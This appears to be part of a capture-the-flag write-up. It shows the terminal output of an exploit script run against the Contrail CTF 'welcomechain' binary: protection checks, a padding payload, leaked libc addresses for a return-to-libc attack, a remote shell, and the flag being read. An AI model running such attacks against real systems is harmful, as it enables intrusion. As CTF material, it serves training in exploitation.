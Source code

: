 $ python exploit.py r
[*] '/CTF/contrail/welcomechain'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 114.177.250.4 on port 2226: Done
[*] '/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@

printf_addr: 0x7f2d430109c0
libc_base: 0x7f2d42f90000
addr_system: 0x7f2d42fdf440
addr_binsh: 0x7f2d43143e9a
[*] Switching to interactive mode

 ▄▄·        ▐ ▄ ▄▄▄▄▄▄▄▄   ▄▄▄· ▪  ▄▄▌  
▐█ ▌▪▪     •█▌▐█•██  ▀▄ █·▐█ ▀█ ██ ██•  
██ ▄▄ ▄█▀▄ ▐█▐▐▌ ▐█.▪▐▀▀▄ ▄█▀▀█ ▐█·██▪  
▐███▌▐█▌.▐▌██▐█▌ ▐█▌·▐█•█▌▐█ ▪▐▌▐█▌▐█▌▐▌
·▀▀▀  ▀█▄▀▪▀▀ █▪ ▀▀▀ .▀  ▀ ▀  ▀ ▀▀▀.▀▀▀ 

Welcome! Contrail CTF!
Please Input : Your input is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv\x05@
$ ls
bin
dev
flag
lib
lib32
lib64
welcomeropchain
$ cat flag
ctrctf{W31c0m3!_c0ntr4i1_ctf_r3t2l1bc!}
$ 
[*] Interrupted
[*] Closed connection to 114.177.250.4 port 2226
